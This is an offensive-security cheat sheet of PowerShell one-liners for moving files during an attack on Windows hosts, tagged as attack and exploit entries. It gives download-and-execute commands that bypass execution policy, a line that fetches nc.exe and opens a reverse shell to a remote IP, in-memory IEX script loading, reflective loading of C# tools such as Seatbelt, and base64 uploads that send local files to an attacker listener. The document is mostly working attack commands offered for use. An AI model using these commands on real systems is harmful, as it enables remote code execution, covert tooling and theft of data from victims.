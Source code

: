 # powershell

% powershell, download

## Download with powershell
#plateform/windows #target/remote #cat/ATTACK/FILE_TRANSFERT 
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "(New-Object System.Net.WebClient).DownloadFile('http://<server>/<source_file>','<dest_file>')"
```

## Download and execute with powershell
#plateform/windows #target/remote #cat/ATTACK/FILE_TRANSFERT #cat/ATTACK/EXPLOIT 
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile New-Object System.Net.WebClient.DownloadFile('<url_file>','nc.exe'); nc.exe <ip> <port> -e cmd.exe
```

## Download powershell into memory
```powershell
(new-object system.net.webclient).downloadstring('http://<ip>/<script>') | IEX
```


## Download csharp into memory - Assembly reflection (gziped)
#cat/UTILS
```powershell
$compressed = (New-Object System.Net.WebClient).DownloadData('http://<local_ip>:<port|80>/<asm_ref_bin_path><asm_ref_exe_name>.exe');$a=New-Object IO.MemoryStream(,[Convert]::FromBAsE64String($compressed));$decompressed = New-Object IO.Compression.GzipStream($a,[IO.Compression.CoMPressionMode]::DEComPress);$asm = [System.Reflection.Assembly]::Load($decompressed); 
```

## Download csharp into memory - Assembly reflection 
#cat/UTILS
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<local_ip>:<port|80>/<asm_ref_bin_path><asm_ref_exe_name>.exe'); $asm = [System.Reflection.Assembly]::Load($data); 
```
= asm_ref_bin_path: windows/NetFramework_4.7_x64/
= asm_ref_exe_name: Seatbelt


## run csharp from memory - Assembly reflection 
#cat/UTILS
```powershell
$params="<asm_ref_params>".split(" ");$OldConsoleOut = [Console]::Out; $StringWriter = New-Object IO.StringWriter ; [Console]::SetOut($StringWriter) ; $asm.EntryPoint.Invoke($null, [Object[]] @(@(,($params))));[Console]::SetOut($OldConsoleOut); $Results = $StringWriter.ToString(); $Results
```
= asm_ref_params: -group=user -full

## Upload with powershell (in-memory)
#plateform/windows #target/remote #cat/ATTACK/FILE_TRANSFERT #cat/ATTACK/EXPLOIT 
catch with nc then echo <base64> | base64 -d -w 0 > hosts
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<file>' -Encoding Byte));Invoke-RestMethod -Uri http://<local_ip>:<port|80>/ -Method POST -Body $b64
```

## Upload with powershell (file creation)
#plateform/windows #target/remote #cat/ATTACK/FILE_TRANSFERT #cat/ATTACK/EXPLOIT 
catch with nc then echo <base64> | base64 -d -w 0 > hosts
```powershell
certutil -encode <infile> <outfile>; $base64str = Get-Content <outfile> && Invoke-RestMethod -Uri http://<local_ip>:<port|80>/ -Method POST -Body $base64str
```